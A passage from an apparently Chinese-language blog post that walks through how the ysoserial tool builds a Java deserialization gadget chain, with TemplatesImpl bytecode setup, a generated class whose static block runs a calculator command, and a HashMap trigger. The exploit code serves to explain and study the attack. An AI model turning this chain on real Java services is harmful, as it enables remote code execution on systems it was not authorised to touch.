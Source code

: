 ```
            `}`);

            // required to make TemplatesImpl happy
            Reflections.setFieldValue(templates, "_name", "Pwnr");
            Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
            return templates; 
            /**此时的TemplatesImpl对象里的_bytecodes属性，
             * 里面存放了两个类的字节码，一个是以实现了AbstractTranslet类的StubTransletPayload对象为模板用javassists生成的一个类对象,
             * 一个是只实现了了Serializable接口的Foo类对象，
             * 同时_tfactory属性里存放了一个TransformerFactoryImpl对象*/
        `}`

```

我们先看一下最终生成的.class的一个结果，这个新生成的字节码中有三个比较关键的点，首先是实现了Serializable接口，这点自不必多说，其次是继承自AbstractTranslet类，这点很关键在后续执行恶意代码时起关键作用，当然最最重要的就是这个手动加入的静态代码块，我们都知道静态代码块在类被加载的时候就会执行，整个类的生命周期中就只会执行一次。所以只需要将这个动态生成的类实例化的话就会自动执行Runtime.exec()函数 。接下来的操作就是将动态生成的类转化成字节数组的形式赋值给之前已经实例化好的TemplatesImpl对象的_bytecodes属性。同时为TemplatesImpl对象的_name和_tfactory属性赋值。

```
package ysoserial;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.Serializable;

public class Pwner1587535724799618000 extends AbstractTranslet implements Serializable `{`
    private static final long serialVersionUID = -5971610431559700674L;

    public Pwner1587535724799618000() `{`
    `}`

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException `{`
    `}`

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException `{`
    `}`

    static `{`
        Object var1 = null;
        Runtime.getRuntime().exec("open /Applications/Calculator.app");
    `}`
`}`
```

接下来的就是一系列针对恶意代码的封装操作，不是很难，但是特别繁琐，所以我画了一个脑图来帮助大家进行理解。最终GetObject执行完成后封装出来的结果是一个HashMap对象，对 没有错，这次反序列化的触发点，就是我们最常用的HashMap。HashMap在被序列化然后反序列化的过程中，经过一系列的嵌套调用最终触发了我们封存在TemplatesImpl对象的_bytecodes属性中的那个动态生成类的静态代块。
